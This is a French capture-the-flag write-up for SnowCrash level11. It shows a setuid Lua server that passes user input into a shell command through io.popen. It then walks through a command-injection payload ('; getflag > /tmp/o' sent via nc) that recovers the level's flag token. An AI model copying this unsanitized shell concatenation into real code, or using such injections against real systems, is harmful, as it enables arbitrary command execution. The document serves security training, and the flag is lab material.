 Avec la commande **ls**, on trouve le fichier **level11.lua**

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

En l'examinant, on trouve que c'est un serveur qui va accepter des requêtes de connexion sur le port 5151, et qui demandera un mot de passe pour se connecter.

```bash
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Le mot de passe doit avoir son hash avec sha1sum égal à `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`.

Pour cela, on va sur le site [dcode](https://www.dcode.fr/hash-sha1)

On obtient le résultat : `NotSoEasy`.

Évidemment, ce mot de passe n'est pas le bon, car il ne permet pas de se connecter à **flag11** ou **level12**.

```bash
level11@SnowCrash:~$ su flag11
Password: 
su: Authentication failure
level11@SnowCrash:~$ su level12
Password: 
su: Authentication failure
```

Il faut donc trouver un autre moyen de récupérer le flag.

En regardant plus en détail le code, la commande qu'utilise le script est une concaténation de `echo ` + {le mot de passe} + ` | sha1sum`

On peut donc exploiter cette partie en utilisant la commande `getflag`.

```bash
level11@SnowCrash:~$ echo "; getflag > /tmp/o" | nc 127.0.0.1 5151
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/o
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

